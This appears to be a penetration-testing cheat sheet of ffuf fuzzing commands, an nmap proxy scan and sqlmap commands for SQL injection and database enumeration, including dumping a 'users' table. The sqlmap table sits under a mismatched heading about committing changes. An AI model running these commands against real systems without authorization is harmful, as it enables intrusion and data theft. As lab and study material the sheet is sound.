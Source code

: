 | `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.website.com/`                                                                                                        | Sub-domain Fuzzing                                                            |
| `ffuf -w wordlist.txt:FUZZ -u http://academy.htb:PORT/ -H 'Host: FUZZ.website.com' -fs xxx`                                                                     | VHost Fuzzing                                                                 |
| `ffuf -w wordlist.txt:FUZZ -u http://admin.website.com:PORT/admin/admin.php?FUZZ=key -fs xxx`                                                                   | Parameter Fuzzing - GET                                                       |
| `ffuf -w wordlist.txt:FUZZ -u http://admin.website.com:PORT/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx` | Parameter Fuzzing - POST                                                      |
| `ffuf -w ids.txt:FUZZ -u http://admin.website.com:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`       | Value Fuzzing                                                                 |
| `ffuf -w ./vhosts -u http:// -H "HOST: FUZZ.target.domain" -fs 612`                                                                                             | Bruteforcing for possible virtual hosts on the target domain using ffuf.      |
| `ffuf -recursion -recursion-depth 1 -u http://192.168.10.10/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt`            | Discovering files and folders that cannot be spotted by browsing the website. |
| `ffuf -w ./folders.txt:FOLDERS,./wordlist.txt:WORDLIST,./extensions.txt:EXTENSIONS -u http://www.target.domain/FOLDERS/WORDLISTEXTENSIONS`                      | Mutated bruteforcing                                                          |

Scan a port with Nmap via proxy with the `-Pn` flag to skip host discovery and scripts

nmap --proxies http://127.0.0.1:8080 SERVER\_IP -pPORT -Pn -sC

**How to commit changes from local machine**

| Command                                                                                                                   | Description                                                 |
| ------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------- |
| `sqlmap -h`                                                                                                               | View the basic help menu                                    |
| `sqlmap -hh`                                                                                                              | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`                                                                | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`                                                               | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`                                                              | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                                                                       | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`                                                        | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                                                                     | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`                                             | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`                                                            | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`                                                     | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                                                                          | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`                                  | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`                                                             | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`                                      | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`                             | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                                                                       | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`                                                               | Searching for data                                          |